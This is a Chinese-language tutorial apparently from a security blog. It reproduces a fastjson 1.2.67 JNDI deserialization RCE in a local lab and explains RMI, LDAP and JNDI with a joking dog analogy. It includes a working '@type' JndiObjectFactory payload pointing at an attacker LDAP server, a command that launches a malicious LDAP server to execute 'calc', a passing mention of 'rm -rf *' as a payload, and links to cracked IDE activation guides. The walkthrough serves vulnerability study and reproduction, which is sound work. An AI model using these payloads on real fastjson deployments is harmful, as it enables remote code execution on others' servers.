

# fastjson_1267反序列化复现

---

## 是什么？

#### 什么是序列化和反序列化？

序列化字符串 -> 对象 -> 实例

{狗子:3} -> 狗子.jpg X 3 ->

#### 什么是Fastjson反序列化漏洞？

WEB服务器：fastjson老弟，我雇你替我把{狗子:3}转换成

fastjson：


好嘞， 让我看清楚上面写了啥。{狗子:3,hakcer:"rmi://safedoge.com/d3ge"}，不是黑名单里的藏獒和二哈，是柴犬doge！

针不戳，我也喜欢柴犬。

让我再看看咱们的本地仓库里有这样狗子吗？

有dog库，但好像没有斜眼笑的柴犬，不过dog库上记载了一种lookup方法可以允许我们根据字符串上的远程服务器寻找我们需要的对象，那得按照字符串上面写的远程服务器上safedoge.com/d3ge找找了。

safedoge远程服务器：这是你要的

fastjson：转交给web服务器吧。

web服务器：？？？我要的是正经狗子，不要这种眼歪嘴斜的。

那么假如我们指向hacker远程服务器，上面的doge改成rm -rf *,那岂不是...


#### 什么是远程XXXXXXXX？

你看吗？我不看的


### RMI（和LDAP差不多）

```
Java远程方法调用，即Java RMI（Java Remote Method Invocation）是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口。它使客户机上运行的程序可以调用远程服务器上的对象。远程方法调用特性使Java编程人员能够在网络环境中分布操作。RMI全部的宗旨就是尽可能简化远程接口对象的使用。

Java RMI极大地依赖于接口。在需要创建一个远程对象的时候，程序员通过传递一个接口来隐藏底层的实现细节。客户端得到的远程对象句柄正好与本地的根代码连接，由后者负责透过网络通信。这样一来，程序员只需关心如何通过自己的接口句柄发送消息。
```


JRMP

```
Java远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于Java技术的、用于查找和引用远程对象的协议。这是运行在Java远程方法调用（RMI）之下、TCP/IP之上的线路层协议（英语：Wire protocol）。
```


JDNI

```
Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。
```

---


---

## 为什么？


(太干了，容易消化不良，建议回家自己配奶茶慢慢吃)

### 调用栈分析

这里说明一下，对于fastjson漏洞而言，主流的利用方法都是通过JDNI->RMI/LDAP的形式，这些词语具体是什么意思前面有提到。

1.2.47以前可以通过java原生库进行攻击，1.2.48以后由于越来越严格的黑名单导致大多需要WEB应用导入的其他库才能进行攻击。

因而我们的利用都是建立在相同的手法上：fastjson的pasereObject（脑图有提到执行的详细调用关系）->invoke->lookup（可控的参数）->指向RMI/LDAP恶意远程服务->exec(whoami)

所以1.2.48以后不同版本间利用漏洞的区别很小，主要在于寻找其他未被加入黑名单的库依赖中，是否存在的可控参数的lookup()函数，实际在调用栈中的形式大同小异。参考如下图


有兴趣学习更深的同学建议亲自动手调试！！！建议亲自动手调试！！！并建议亲自动手调试！！！


**推荐阅读**

结合这篇文章食用效果更佳：

https://paper.seebug.org/994/#11-defaultjsonparser

---


---

## 怎么样（做）？


### 配环境永远是最大的敌人

#### 安装JDK1.80_102

RMI/LDAP；一定要先下载对JDK！！！！防止中途返工被气死（老版本已经找不到了，我找了非常久才下到一个，需要的同学私信我发给你）


#### 下载IDEA（收费的，有能力支持支持正版哈）

这个我用了很麻烦，有坑

https://justcode.ikeepstudying.com/2020/07/intellij-idea-2020-2-%E7%A0%B4%E8%A7%A3%E6%BF%80%E6%B4%BB%E6%95%99%E7%A8%8B%EF%BC%88%E4%BA%B2%E6%B5%8B%E6%9C%89%E6%95%88%EF%BC%8C%E5%8F%AF%E6%BF%80%E6%B4%BB%E8%87%B3-2089-%E5%B9%B4%EF%BC%8C%E6%8C%81/

我自己用的这个

https://tech.souyunku.com/?p=15076

IDEA自动的maven 3.3有坑。下载新版maven3.6！！！！

https://maven.apache.org/


#### 配置pom

把我们需要的依赖导入，主要是fastjson1.2.67和shiro-core


```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>groupId</groupId>
    <artifactId>fastjson_1.2.67_poc</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.67</version>
        </dependency>
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.5.1</version>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-simple</artifactId>
            <version>1.7.25</version>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.25</version>
        </dependency>

    </dependencies>
    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <maven.compiler.encoding>UTF-8</maven.compiler.encoding>
        <java.version>1.8</java.version>
        <maven.compiler.source>1.8</maven.compiler.source>
        <maven.compiler.target>1.8</maven.compiler.target>
    </properties>
</project>
```

点击同步


同步失败！！！可以把依赖删了同步一次，再加上再同步一次试试。


防止稀奇古怪的问题折磨你半个星期，C盘被撑爆，甚至正常过了一段时间一些莫名其妙又重新出现的同步失败等等


还是同步不了的同学试试挂代理


如果还是不能试试在settings.xml中添加镜像


```xml
<mirror>
    <id>alimaven</id>
    <name>aliyun maven</name>
    <url>http://maven.aliyun.com/nexus/content/groups/public/</url>
    <mirrorOf>central</mirrorOf>
</mirror>
```




如果还是不行，建议换台电脑或者直接放弃。用虚拟机+docker吧。

### 开始复现（好像是最简单的）

我们来复习一下攻击流程


---

IDEA工程中添加一个新的java文件，定义一个json字符串payload，用fastjson解析它。

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.shiro.*;
public class test {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String payload = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"ldap://yourserver:8888/Object\"}";
        //String payload = "{\"zeo\":{\"@type\":\"java.net.Inet4Address\",\"val\":\"rny3ko.dnslog.cn\"}}";


        try {
            JSON.parseObject(payload);
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

---

在VPS上启动我们的LDAP服务

这里推荐使用国内师傅写的RMI/LDAP一键启动工具：https://github.com/wyzxxz/fastjson_rce_tool

``` bash
java -cp fastjson_tool.jar fastjson.HLDAPServer 256.256.256.256 8888  "calc"
```


idea点击运行，嗯？怎么感觉一点反应都没有。（记得给VPS加上出入站规则哦）


好了，这总算是可以了吧

---

运行一下程序，攻击成功

